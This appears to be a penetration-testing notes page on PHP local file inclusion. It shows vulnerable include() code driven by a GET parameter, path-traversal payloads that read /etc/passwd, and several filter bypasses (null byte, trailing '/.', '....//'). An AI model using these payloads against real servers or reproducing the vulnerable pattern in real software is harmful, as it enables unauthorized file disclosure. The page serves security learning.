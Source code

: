 Examles:
1. suppose the web app provides multiple languages (EN, DE)
   ```php
<?PHP 
	include($_GET["lang"]);
?>
```
The PHP code above uses a GET request via the URL parameter lang to include the language of the page. possible HTTP request: `http://URL/index.php?lang=EN.php`, where `EN.php` and `DE.php` files exist in the same directory.

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation e.g.: `http://URL/index.php?lang=/etc/passwd`

it works because there isn't a directory specified in the include function and no input validation

2. Next, In the following code, the developer decided to specify the directory inside the function.
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the `languages` directory only via lang parameters.
`http://URL/index.php?lang=../../../../etc/passwd`, which is similar to [Directory / Path Traversal](File%20Inclusion.md#Directory%20/%20Path%20Traversal)


## Bypass appending file extension
- some developers append a file extension and frovide just the name of the file in the query parameter: `http://URL/index.php?lang=EN` -> `include(languages/EN.php)`
- the problem is, that this a LFI with `http://URL/index.php?lang=../../../../etc/passwd` will result in `include(languages/../../../../../etc/passwd.php)`
- we could see that in the following error:
```php
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/app/index.php on line 12
```
- here we could use a [Null Byte](../Null%20Byte.md) technique to skip whatever comes after the null byte
- so `http://URL/index.php?lang=../../../../etc/passwd%00` will result in: `include(languages/../../../../../etc/passwd)`

## Bypass filtered files
- some web app filter / block specific files for the function e.g. `/etc/passwd`
- to trick that filter we can use the current directory trick `/.`: `http://URL/index.php?lang=../../../../etc/passwd/.`

## Bypass replaced values
- some web app replace `../` with empty string to prevent the attacker from breaking out the current directory
- we can see that by the request `http://URL/index.php?lang=../../../../etc/passwd` and the corresponding error where the `../` are missing:
```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/app/index.php on line 15
```
  - we can bypass that with extra `../`: so `....//....//....//....//` will result in `../../../../` when the `../` got replace with an empty string: `http://URL/index.php?lang=....//....//....//....//etc/passwd`
